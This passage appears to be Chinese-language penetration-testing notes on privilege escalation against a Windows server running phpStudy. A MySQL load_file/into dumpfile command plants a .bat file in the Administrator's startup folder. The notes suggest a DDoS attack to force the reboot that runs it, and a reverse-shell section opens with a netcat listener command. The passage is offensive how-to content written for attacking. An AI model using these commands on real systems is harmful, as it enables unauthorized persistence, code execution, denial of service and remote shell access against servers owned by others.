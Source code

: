 ![](image60/60-20.png)

##### **提权**

通过sql命令写入到启动项中

```mysql
select load_file(‘C:/phpStudy/PHPTutorial/WWW/74/x/xxx.bat’) into dumpfile ‘C:/Documents and Settings/Administrator/「开始」菜单/程序/启动/xxx.bat’;
```

然后让目标服务器重启后，bat文件执行

```shell
重启的服务器的操作：
-- DDOS攻击将服务器的流量打光，服务器就会重启 
```

### 反弹shell提权

- **（基于利用反弹特性命令执行）**

- nc -l -p 5577

- nc相关知识：[https://www.cnblogs.com/-chenxs/p/11748488.html](https://www.cnblogs.com/-chenxs/p/11748488.html)
